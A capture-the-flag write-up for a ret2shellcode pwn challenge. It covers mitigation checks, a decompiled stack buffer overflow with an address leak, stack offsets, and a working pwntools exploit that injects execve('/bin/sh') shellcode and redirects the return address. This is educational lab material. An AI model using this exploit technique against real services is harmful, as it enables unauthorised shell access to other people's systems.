


# TL;DR

A quick ret2shellcode challenge. The binary leaks a stack address and has `NX` disabled, allowing us to write custom shellcode to the stack buffer and jump directly into it.

# Analysis

We get a single **dynamically linked x86-64 executable** — `the_hinge_whisper`.

Inspecting mitigations in GDB/GEF:

```
gef➤  checksec
[+] checksec for '/home/jzrn_/PWN/HTB/the_hinge_whisper/the_hinge_whisper'
Canary                        : ✘
NX                            : ✘
PIE                           : ✓
Fortify                       : ✘
RelRO                         : Full
```

- **NX nit Disabled**: We can execute shellcode placed in stack
- **PIE Enabled**: Code segment addresses are randomized, but we don't need ROP gadgets since we get a direct stack address leak
- **No Canary**: Stack buffer overflow is unrestricted

# Reverse

Binary Ninja reveals 2 main functions: `main()` and `service_hatch()`:

```
004011e3    ssize_t service_hatch()
00401205        void buf // 64 bytes
00401205        printf(format: "  [+] The keyway sits at: %p\n", &buf) // leaks &buf
00401219        printf(format: "  [+] Forge your latch-key: ")
00401228        fflush(fp: stdout)
00401245        return read(fd: 0, &buf, nbytes: 80) // <-- BUFFER OVERFLOW (80 into 64)

00401246    int32_t main(int32_t argc, char** argv, char** envp)
00401267        setvbuf(fp: stdout, buf: nullptr, mode: 2, size: 0)
00401285        setvbuf(fp: stdin, buf: nullptr, mode: 2, size: 0)
0040128a        banner()
0040128f        service_hatch()
0040129e        puts(str: "\n  [*] The lock clicks shut. Nothing happens.")
004012a9        return 0
```

In `service_hatch()` `buf` is 64 bytes, whereas we can overwrite up to **80 bytes**

It also leaks the address of `buf`, giving is a deterministic target to redirect control flow

# Stack Offset and Bounds

```
entry -0x48  ?? ?? ?? ?? ?? ?? ?? ?? <-|
entry -0x40  ?? ?? ?? ?? ?? ?? ?? ??   |
entry -0x38  ?? ?? ?? ?? ?? ?? ?? ??   |
entry -0x30  ?? ?? ?? ?? ?? ?? ?? ??   | 64 bytes (buf)
entry -0x28  ?? ?? ?? ?? ?? ?? ?? ??   |
entry -0x20  ?? ?? ?? ?? ?? ?? ?? ??   |
entry -0x18  ?? ?? ?? ?? ?? ?? ?? ??   |
entry -0x10  ?? ?? ?? ?? ?? ?? ?? ?? <-|
entry  -0x8  int64_t __saved_rbp
entry        void* const __return_addr
```

> Note: Binja calculates offsets relative to return address, not from rbp



The total structure size up to the return address is **72 bytes** (64 bytes `buf` + 8 bytes saved RBP). Writing 80 bytes fills the buffer, overwrites RBP, and puts our target address right on `__return_addr`

# Exploit

1. Parse the leaked `buf` stack address from output.
2. Construct a custom `execve("/bin/sh", 0, 0)` assembly payload (~31 bytes).
3. Pad the payload to 72 bytes to reach `__return_addr`.
4. Overwrite `__return_addr` with the leaked `buf` address.

```python
from pwn import *

context.arch = 'amd64'
context.endian = 'little'

# context.terminal = ['zellij', 'action', 'new-pane', '-d', 'right', '--']
# p = gdb.debug('./the_hinge_whisper', aslr=True, gdbscript='b *service_hatch+96')
# context.log_level = 'debug'


# p = remote('YOUR_IP', YOUR_PORT)
p = process('./the_hinge_whisper')

p.readuntil(b'[+] The keyway sits at: ')
address_raw = p.readline() # e.g. 0x7fff52a5f380
address_int = int(address_raw.strip(), 16)
address = p64(address_int)

# 0x68732f6e69622f - /bin/sh\x00
# for some reason shellcraft.sh() didn't work
shellcode = bytes(asm('''
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp
mov rsi, 0
mov rdx, 0
mov rax, SYS_execve
syscall
'''))

payload = shellcode
payload += cyclic(72-len(shellcode))
payload += address

p.writeafter(b'[+] Forge your latch-key: ', payload + b'\n')
p.interactive() # shell yay!
```


